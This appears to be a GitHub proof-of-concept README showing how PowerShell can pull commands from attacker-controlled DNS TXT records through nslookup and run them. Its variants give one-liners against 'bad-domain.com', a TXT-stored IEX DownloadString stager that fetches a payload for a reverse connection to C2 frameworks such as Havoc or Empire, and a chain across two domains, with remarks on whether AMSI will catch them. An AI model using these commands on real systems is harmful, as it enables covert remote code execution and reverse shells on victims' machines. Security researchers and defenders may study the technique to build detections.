 ### Variant 0.1
Commands are stored as TXT entries on a DNS server and requested via nslookup (a.k.a "nshookup").<br><br>
Client executing:.<br>
`powershell (nslookup -q=txt bad-domain.com)[5]`<br><br>
DNS Server TXT entry:<br>
`ping google.com`<br><br>
*EXPLANATION: nslookup.exe calls the TXT entry through DNS as subprocess from powershell. This way the stored commands get transmitted over DNS and executed in the context of the current (powershell) process. The number in the square brackets stands for the index (five being the first possible one) of the command. It is also possible to use "[-1]" should there be only a single command available as TXT entry.*<br><br>

The outcome is `powershell ping google.com` being executed in the current session on the clients system.

![GRAPHIC_1 1](https://github.com/Dood3/PoCs/assets/93183445/d550b7d7-db51-42da-9834-b89f5c792bfb)
<img width="1267" height="394" alt="Graphic_1 1" src="https://github.com/user-attachments/assets/621c5d24-6e7e-4f2c-9a32-16f99e1cac27" />



### Variant 0.2
-> Commands are stored as TXT entries on a DNS server to host a payload/stager for a  reverse connection to a C2 server (Havoc, Empire, etc.).<br><br>
Client executing:<br>
`powershell (nslookup -q=txt bad-domain.com)[5]`<br><br>
DNS Server TXT entry:<br>
`IEX (New-Object Net.WebClient).DownloadString('http:/server/payload.html')`<br><br>
*EXPLANATION: Again, the TXT enty is interpreted as legitimate command through parent & child process being powershell and a DNS request respectively.
The file hosting the payload is not bound to any file formats. A simple file without suffix will work. 
This request will probably trigger AV (AMSI). If "IEX" doesn't get caught, the delivered payload itself most likely will.*<br>

![GRAPHIC_2 1](https://github.com/Dood3/PoCs/assets/93183445/3954f3ed-4196-497e-a369-14a5d71355d9)



### Variant 0.3
-> Commands are stored as TXT entries on a domain1.com to host another nslookup command requesting entries from domain2.com.<br><br>
Client executing:<br>
`powershell (nslookup -q=txt bad-domain.com)[5]`<br><br>
DNS Server TXT entry (the index may vary):<br>
`powershell (nslookup -q=txt bad-domain2.com)[5]`<br><br>
DNS Server TXT entry on bad-domain_2.com:<br>
`IEX (New-Object Net.WebClient).DownloadString('http:/server/payload.html')`<br><br>
*EXPLANATION: The commands can be chained together with a combination of dns servers. The client requests the first domain, which in return requests the actual commands on the second server.*<br>
This will most likely trigger AV (AMSI).<br>

1. `powershell (nslookup -q=txt bad-domain.com)[5]`<br>
2. `powershell (nslookup -q=txt bad-domain_2.com)[5]`<br>
3. `Command gets delivered to Client (over dns)`<br>
4. `Reverse shell phoning home`<br>

![GRAPHIC_3 1](https://github.com/Dood3/PoCs/assets/93183445/c8fe7f80-361c-4ccc-9249-8c345ce14351)

<br><br><br><br><br><br><br>


*Icons:*<br>
<font size="1">
https://www.flaticon.com/free-icons/computer  <br>
https://icons8.com/icon/set/firewall-png/glyph-neue <br>
https://icons8.com/icons/set/computer <br> 
</font>

